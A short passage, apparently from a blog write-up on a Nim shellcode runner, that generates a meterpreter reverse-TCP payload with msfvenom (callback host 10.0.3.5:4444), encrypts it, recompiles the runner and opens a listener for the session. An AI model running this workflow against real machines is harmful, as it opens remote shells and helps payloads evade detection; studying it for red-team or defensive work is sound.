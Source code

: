 Let's push out luck and try to execute a meterpreter revershell.

We can create a meterpreter shellcode using.

```bash
#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.5 LPORT=4444 -f csharp
```
Once we have the payload,we can change the enc.nim file and recompile it.

<p align="center"><img src="/images/nim/enc_rev_shell.png"></p>

We we have the encrypted payload, put that the our shellcode runner and recompile it.

<p align="center"><img src="/images/nim/compile_pi_enc_rev.jpeg"></p>

Once we have the executable, it's time to setup a listener and hope for the best.

<p align="center"><img src="/images/nim/msf_rev_session_exe.jpeg"></p>
